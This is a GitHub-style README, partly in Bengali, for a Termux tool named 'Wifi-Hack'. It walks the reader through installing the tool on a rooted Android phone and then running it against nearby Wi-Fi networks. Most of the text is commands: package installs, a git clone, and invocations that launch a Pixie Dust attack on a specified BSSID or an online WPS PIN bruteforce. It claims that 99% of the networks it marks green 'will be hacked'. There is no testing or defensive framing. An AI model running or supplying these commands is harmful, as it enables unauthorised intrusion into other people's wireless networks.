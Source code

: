 ## Wifi-Hack 🗿
### Hack WIfi Using Termux! (Need Rooted Device )🧑‍💻
### termux দিয়ে wifi হ্যা.ক করুন 

[![Screenshot-20240524-183227-Termux.png](https://i.postimg.cc/qMjPGGTw/Screenshot-20240524-183227-Termux.png)](https://postimg.cc/vcx2YfDx) 

### How to install (কিভাবে ইন্সটল করবেন) :

```bash
apt update && apt upgrade
```
```bash
pkg update && pkg upgrade
```
```
pkg install git
```
```
pkg install python
```
```bash
pkg install -y root-repo && pkg install -y git tsu python wpa-supplicant pixiewps iw && termux-setup-storage
```
```
git clone https://github.com/tanvirhasan999/Wifi-Hack
```
```
cd Wifi-Hack
```
```
chmod +x fück-wifi.py
```
### Note📝 : Now turn off Wifi (এখন wifi অফ করুন)
```
sudo python fück-wifi.py wlan0 -K
```
## Note📝: It will show all Wifi within your range. Among them, 99% of Green's will be hacked. And the White ones may also be tried. And the Red ones will not be hacked. (আপনার Range এর ভেতর এর সব Wifi Show করবে। এগুলার ভেতর Green এর গুলা 99% হ্যাক হবে। আর White এর গুলোও হতে পারে চেষ্টা করে দেখবেন।আর যেগুলো Red গুলো হ্যাক হবেনা)

## Enter this command to open Tool next time. (পরের বার Tool অপেন করতে এই command টি দিন।)
```bash
sudo python Wifi-Hack/fück-wifi.py -i wlan0 -K
```

#### Example : `sudo python Wifi-Hack/fück-wifi.py -i wlan0 -K`

#### Note 📝: 
**First turn off your Wifi.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python Wifi-Hack/fück-wifi.py -i wlan0 -K`
- Start Pixie Dust attack on a specified BSSID:
`sudo python Wifi-Hack/fück-wifi.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python Wifi-Hack/fück-wifi.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
## Thanks For Using My Tool ❤️

